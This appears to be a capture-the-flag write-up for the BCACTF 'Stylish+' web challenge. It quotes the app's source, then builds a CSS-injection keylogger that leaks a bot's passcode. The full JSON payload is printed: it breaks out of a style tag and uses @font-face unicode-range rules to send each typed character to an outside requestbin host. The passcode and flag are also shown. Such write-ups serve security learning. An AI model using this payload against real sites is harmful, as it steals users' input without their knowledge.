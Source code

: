 ```yaml
---
title: Stylish+
date: 2022-06-06 10:00:00 +0200
categories: [web]
tags: [bcactf3]
toc: false
---
```


## Overview
Stylish+ is a **Fastify** web application that allows you to create CSS themes and present them to a bot. You also get the source code of the application to review it and identify any security vulnerabilities.

![](/assets/img/stylish_landing_page.png#center)
## Vulnerability
Looking at `package.json` file for deprecated libraries with known security vulnerabilities and also other config files for misconfigurations - has led to nothing.
After toying with the website and clicking every button - a POST request with the following payload is sent:
``` json
{
	"bodyBG":"white",
	"bodyFG":"black",
	"accentBG":"black",
	"accentFG":"white"
}
```
Let's see how the data is processed in `server/src/index.ts`.
``` javascript

app.post<{ Body: Static<typeof Theme> }>("/api/report", async (request, reply) => {
    // Generate an ID
    const id = cuid();

    // Store the theme
    themes.set(id, request.body);

    let context: BrowserContext | undefined;
    let page: Page | undefined;

    try {
        context = await (await browser).createIncognitoBrowserContext();
        page = await context.newPage();
        await page.setCacheEnabled(false);
        await page.goto(`http://localhost:3000/?theme=${id}`, { waitUntil: "load", timeout: 3000 });
        await page.click("#open-admin-panel");

        // Wait a bit to give everything some time to load
        await new Promise(resolve => setTimeout(resolve, 1000));

        const passcode = thePasscode;
        for (let i = 0; i < passcode.length; i++) {
            const char = passcode.charAt(i);
            const id = cuid();
            await page.evaluate(`
            document.querySelectorAll("#keypad > button").forEach(button => {
                if (button.innerText === "${char}") {
                    button.id = "${id}";
                }
            })
            `);
            await page.click(`#${id}`);
            await new Promise(resolve => setTimeout(resolve, 300));
        }

        const submitID = cuid();
        await page.evaluate(`
        document.querySelectorAll("#keypad > button").forEach(button => {
            if (button.innerText === "Submit") {
                button.id = "${submitID}";
            }
        })
        `);
        await page.click(`#${submitID}`);
        await new Promise(resolve => setTimeout(resolve, 3000));

        reply.send("sure");
    } catch (e) {
        console.error(e);
        throw e;
    } finally {
        // Clean up
        themes.delete(id);
        await page?.close();
        await context?.close();
    }
});
```
The body is saved inside a themes map for a quick visit from the bot and then deleted. However, the bot not only visits the page, but also enters its secret passcode - we should remember that.
In `public/src/main.ts` we can see that the theme is written inside a style tag.
``` javascript
function setTheme({bodyBG, bodyFG, accentBG, accentFG}: Theme) {
    theme = {bodyBG, bodyFG, accentBG, accentFG};
    document.getElementById("style")!.innerText = `
        :root {
            --body-bg: ${bodyBG};
            --body-fg: ${bodyFG};
            --accent-bg: ${accentBG};
            --accent-fg: ${accentFG};
        }
    `;
}
```
So we have controll over the html `<style>` tag - great, but how do we abuse that? Since this is a CTF challenge we have to see where the flag is hidden in the first place.
In `server/src/index.ts` there is another endpoint which looks as follows:
``` javascript
app.post<{ Body: Static<typeof FlagRequest> }>("/api/flag", {
    schema: {
        body: FlagRequest,
    },
}, (request, reply) => {
    const { passcode } = request.body;
    if (passcode === (thePasscode ?? "")) {
        console.log("Flag get!");
        reply.send(flag ?? "yell at the problem author to fix this");
    } else {
        reply.status(403).send("no");
    }
});
```
OK, so we have to figure out how to get our hands on the passcode - as we have already seen the bot that visits our theme enters the passcode. So how do we steal it?
It is pretty simple - with the `:focus` selector we can load an image from our server and we should be good to go, right?
This would be far too easy - so the author of the challenge gave us a pretty big obstacle - the the order of the buttons is randomized on every visit.
``` javascript
const buttons = [
	"D", "E", "F",
	"A", "B", "C",
	"7", "8", "9",
	"4", "5", "6",
	"1", "2", "3",
	"Reset", "0", "Submit",
];
const indices = [...Array(buttons.length).keys()];

for (let i = 0; i < indices.length; i++) {
	const j = Math.floor(Math.random() * indices.length);
	const temp = indices[i];
	indices[i] = indices[j];
	indices[j] = temp;
}
--- snipped ---
css += `
	#keypad button:nth-child(${i + 1}) {
		order: ${indices[i]};
	}
`;
--- snipped ---
```
## Exploitation
After researching the topic and readig through [tons of drafts](https://drafts.csswg.org/selectors/). I thought I would have to give up because it didn't seem to be possible to create a selector for a button with a specific letter or number.
But wait - why reinvent the wheel when it already exists - the idea of a CSS keylogger is not new and has been around for over 10 years! So I changed my research on this topic and found tons of new input to try out - for example the [@font-face rule](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face).
This rule set has a unique property called `unicode-range` which allows us to load a remote font and use only a range of chracters from it - this means that if we create this rule set for each letter and number of the passcode, we can build our keylogger - how exciting ^^
``` css
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=A), local(Impact); unicode-range: U+41; } // A
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=B), local(Impact); unicode-range: U+42; } // B
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=C), local(Impact); unicode-range: U+43; } // C
...
#keypad button:focus { font-family: x, 'Comic sans ms'; }
```
Our payload now looks like this:
``` json
{
    "bodyBG":"white",
    "bodyFG":"orange",
    "accentBG":"green",
    "accentFG":"blue;}@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=A), local(Impact); unicode-range: U+41; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=B), local(Impact); unicode-range: U+42; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=C), local(Impact); unicode-range: U+43; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=D), local(Impact); unicode-range: U+44; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=E), local(Impact); unicode-range: U+45; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=F), local(Impact); unicode-range: U+46; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=0), local(Impact); unicode-range: U+30; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=1), local(Impact); unicode-range: U+31; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=2), local(Impact); unicode-range: U+32; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=3), local(Impact); unicode-range: U+33; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=4), local(Impact); unicode-range: U+34; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=5), local(Impact); unicode-range: U+35; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=6), local(Impact); unicode-range: U+36; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=7), local(Impact); unicode-range: U+37; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=8), local(Impact); unicode-range: U+38; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=9), local(Impact); unicode-range: U+39; }#keypad button:focused { font-family: x, 'Comic sans ms';"
}
```
So let's just send it and find out if it works
![](/assets/img/stylish_requestbin.png#right)
## Flag
And it does work, as you can see.

I had to repeat this process for a few times until I had the working passcode because the bot clicks on a button ever 300ms the resources took sometimes longer and fucked the order but in the end I had the working passcode: 4D7EA2950FC8B613

Sending it to the flag endpoint reveals the flag.
> bcactf{insert_absolutely_bad_css_pun_here_1fAZUo7ZgiCqiQkBkwPW0A}

٩(◕‿◕｡)۶
